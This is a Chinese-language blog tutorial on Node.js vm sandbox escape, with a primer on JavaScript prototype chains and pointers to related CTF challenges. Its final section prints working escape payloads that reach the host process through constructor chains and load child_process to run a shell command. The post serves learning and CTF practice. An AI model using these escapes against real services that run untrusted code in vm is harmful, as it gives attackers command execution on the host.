



# NodeJs沙盒逃逸分析及原型链的简单学习

## VM简介

node.js 里提供了 vm 模块，相当于一个虚拟机，可以让你在执行代码时候隔离当前的执行环境，避免被恶意代码攻击。`vm` 模块可在 V8 虚拟机上下文中编译和运行代码。 注意的是：`vm` 模块不是安全的机制。 不要使用它来运行不受信任的代码。

## VM模块

官方文档原话：

> 一个常见的用例是在不同的 V8 上下文中运行代码。 这意味着被调用的代码与调用的代码具有不同的全局对象。
>
> 可以通过使对象[上下文隔离化](http://nodejs.cn/api/vm.html#vm_what_does_it_mean_to_contextify_an_object)来提供上下文。 被调用的代码将上下文中的任何属性都视为全局变量。 由调用的代码引起的对全局变量的任何更改都将会反映在上下文对象中。

我们来看一个例子

```javascript
const vm = require('vm');
const x = 1;
const context = { x: 2 };
vm.createContext(context); // 创建上下文隔离化对象。
const code = 'x += 40; var y = 17;';
// `x` and `y` 是上下文中的全局变量。
// 最初，x 的值为 2，因为这是 context.x 的值。
vm.runInContext(code, context);

console.log(context.x); // 42
console.log(context.y); // 17

console.log(x); // 1; y 没有定义。
```

上面这个例子完美的诠释了下面这张图的内容(很明显的是沙盒环境代码只能读取 VM 上下文的数据)



所有用 Node.js 所运行的 JavaScript 代码都是在一个“上下文”的作用域中被执行的。 

官方文档当中有这样一句话

> 在 V8 中，一个上下文是一个执行环境，它允许分离的，无关的 JavaScript 应用在一个 V8 的单例中被运行。 必须明确地指定用于运行所有 JavaScript 代码的上下文。

当我们去调用 `vm.createContext()` 方法时， `contextObject`参数（如果 `contextObject` 为 `undefined`，则为新创建的对象）在内部与 V8 上下文的新实例相关联。 该 V8 上下文提供了使用 `vm` 模块的方法运行的 `code` 以及可在其中运行的隔离的全局环境。


沙盒执行上下文是隔离的，但可通过原型链的方式获取到沙盒外的 Function，从而完成逃逸，拿到全局数据，示例图如下：



当然想要理解还是得有一点原型链的知识，学习了解这个不仅仅对今天的知识有好处，也对之后原型链污染的学习也是必须

## 原型链

### 一些小基础

我们首先得知道（官方文档）

> JavaScript 对象是动态的属性“包”（指其自己的属性）。JavaScript 对象有一个指向一个原型对象的链。当试图访问一个对象的属性时，它不仅仅在该对象上搜寻，还会搜寻该对象的原型，以及该对象的原型的原型，依次层层向上搜索，直到找到一个名字匹配的属性或到达原型链的末尾。

首先我们来看看官方的案例，这个请认真看，认真分析学习，这与之后的原型污染的学习密不可分

```javascript
// 从一个函数里创建一个对象o，它自身拥有属性a和b的：
let f = function () {
   this.a = 1;
   this.b = 2;
}

let o = new f(); // {a: 1, b: 2}

// 在f函数的原型上定义属性
f.prototype.b = 3;
f.prototype.c = 4;

// 注意：不要在 f 函数的原型上直接定义 f.prototype = {b:3,c:4};这样会直接打破原型链
// o.[[Prototype]] 有属性 b 和 c
//  (其实就是 o.__proto__ 或者 o.constructor.prototype)
// o.[[Prototype]].[[Prototype]].[[Prototype]]是null
// 这就是原型链的末尾，即 null，
// 根据定义，null 就是没有 [[Prototype]]。

// 综上，整个原型链如下:

// {a:1, b:2} ---> {b:3, c:4} ---> Object.prototype---> null

console.log(o.a); // 1
// a是o的自身属性吗？是的，该属性的值为 1

console.log(o.b); // 2
// b是o的自身属性吗？是的，该属性的值为 2
// 原型上也有一个'b'属性，但是它不会被访问到。
// 这种情况被称为"属性遮蔽 (property shadowing)"   ----- 这一点很重要我们原型链污染的时候经常也是利用了这个特性，各种模板引擎的原型污染你懂的

console.log(o.c); // 4
// c是o的自身属性吗？不是，那看看它的原型上有没有
// c是o.[[Prototype]]的属性吗？是的，该属性的值为 4

console.log(o.d); // undefined
// d 是 o 的自身属性吗？不是，那看看它的原型上有没有
// d 是 o.[[Prototype]] 的属性吗？不是，那看看它的原型上有没有
// o.[[Prototype]].[[Prototype]] 为 null，停止搜索
// 找不到 d 属性，返回 undefined
```

当继承的函数被调用时，[this](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Operators/this) 指向的是当前继承的对象，而不是继承的函数所在的原型对象

```javascript
var o = {
  a: 2,
  m: function(){
    return this.a + 1;
  }
};

console.log(o.m()); // 3
// 当调用 o.m 时，'this' 指向了 o.
```

接下来我们再学习官方文档的一段代码，当然在开始之前我们得知道

> 被构造函数创建的实例对象的 `[[Prototype]]` 指向 `func` 的 `prototype` 属性。**`Object.prototype`** 属性表示 [`Object`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object) 的原型对象。

```javascript
function doSomething(){}
doSomething.prototype.foo = "bar"; // add a property onto the prototype
var doSomeInstancing = new doSomething();
doSomeInstancing.prop = "some value"; // add a property onto the object
console.log( doSomeInstancing );
下面是结果
{
    prop: "some value",
    __proto__: {
        foo: "bar",
        constructor: ƒ doSomething(),
        __proto__: {
            constructor: ƒ Object(),
            hasOwnProperty: ƒ hasOwnProperty(),
            isPrototypeOf: ƒ isPrototypeOf(),
            propertyIsEnumerable: ƒ propertyIsEnumerable(),
            toLocaleString: ƒ toLocaleString(),
            toString: ƒ toString(),
            valueOf: ƒ valueOf()
        }
    }
}
```

显而易见，`doSomeInstancing` 中的`__proto__`是 `doSomething.prototype`，接着我们尝试运行`console.log( doSomeInstancing.foo );`可以得到结果为`bar`，这就告诉我们`doSomeInstancing` 中的`__proto__`是 `doSomething.prototype`. 

接下来我们接着运行

```javascript
console.log( doSomething.prototype );
console.log( doSomeInstancing );
得到
{
    constructor: ƒ doSomething(),
    __proto__: {
        constructor: ƒ Object(),
        hasOwnProperty: ƒ hasOwnProperty(),
        isPrototypeOf: ƒ isPrototypeOf(),
        propertyIsEnumerable: ƒ propertyIsEnumerable(),
        toLocaleString: ƒ toLocaleString(),
        toString: ƒ toString(),
        valueOf: ƒ valueOf()
    }
}
{
    foo: "bar",
    constructor: ƒ doSomething(),
    __proto__: {
        constructor: ƒ Object(),
        hasOwnProperty: ƒ hasOwnProperty(),
        isPrototypeOf: ƒ isPrototypeOf(),
        propertyIsEnumerable: ƒ propertyIsEnumerable(),
        toLocaleString: ƒ toLocaleString(),
        toString: ƒ toString(),
        valueOf: ƒ valueOf()
    }
}
```

这告诉了我们什么`doSomeInstancing` 的 `__proto__` 同`doSomething.prototype`

因此当我们访问`doSomeInstancing` 中的一个属性，浏览器首先会查看`doSomeInstancing` 中是否存在这个属性。

如果 `doSomeInstancing` 不包含属性信息, 那么浏览器会在 `doSomeInstancing` 的 `__proto__` 中进行查找 如果属性在 `doSomeInstancing` 的 `__proto__` 中查找到，则返回它。

如果 `doSomeInstancing` 中 `__proto__` 不具有该属性，则检查`doSomeInstancing` 的 `__proto__` 的  `__proto__` 是否具有该属性。默认情况下，任何函数的原型属性 `__proto__` 都是 `window.Object.prototype.` 因此, 通过`doSomeInstancing` 的 `__proto__` 的  `__proto__` ( 也就是`Object.prototype`) 来查找要搜索的属性。如果再找不到


如上图所示，浏览器则会断言该属性不存在，并给出属性值为 `undefined` 的结论

## 沙盒逃逸

首先看下官方示例

```javascript
const vm = require("vm");

const ctx = {};

vm.runInNewContext('this.constructor.constructor("return process")().exit()',ctx);
console.log("Never gets executed.");
```

上述代码在执行时，程序在第二行就直接退出，vm虚拟机环境中的代码逃逸，获得了主线程的 process 变量，并调用 process.exit()，造成主程序非正常退出。

它等同于

```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
process.exit();
```


以上是通过原型链方式完成逃逸，如果将上下文对象的原型链设置为 null 会怎么做

```javascript
const vm = require("vm");
const ctx = Object.create(null);

ctx.data = {};

vm.runInNewContext(
	'this.data.constructor.constructor("return process")().exit()',
	ctx
);
console.log("Never gets executed.");
```

由于 JS 里所有对象的原型链都会指向 Object.prototype，且 Object.prototype 和 Function 之间是相互指向的，所有对象通过原型链都能拿到 Function，最终完成沙盒逃逸并执行代码。

逃逸后代码可以执行如下代码拿到 require，从而并加载其他模块功能

```javascript
const vm = require("vm");

const ctx = {
	console,
};

vm.runInNewContext(
	`
    var exec = this.constructor.constructor;
    var require = exec('return process.mainModule.constructor._load')();
    console.log(require('child_process').execSync("ls").toString());
`,
	ctx
);
```

看下网页端在线执行结果，完美嘿嘿



因此我们只要能在沙盒环境下通过原型链的方式能获取全局的 Function，就能通过它来执行代码

## CTF题目(BUU上有环境)

###### 2020 HUFUCTFweb just_escape

###### [GKCTF2020]EZ三剑客-EzNode

## 参考文章

NodeJS沙箱逃逸分析(https://www.anquanke.com/post/id/166747)

官方API（http://nodejs.cn/api/vm.html）

凹凸实验室（https://aotu.io/notes/2020/10/28/node-sandbox-escape-analysis/）

关于javascript:nodejs-沙盒逃逸分析（https://lequ7.com/guan-yu-javascriptnodejs-sha-he-tao-yi-fen-xi.html）

NPM酷库：vm2，安全的沙箱环境（https://segmentfault.com/a/1190000012672620）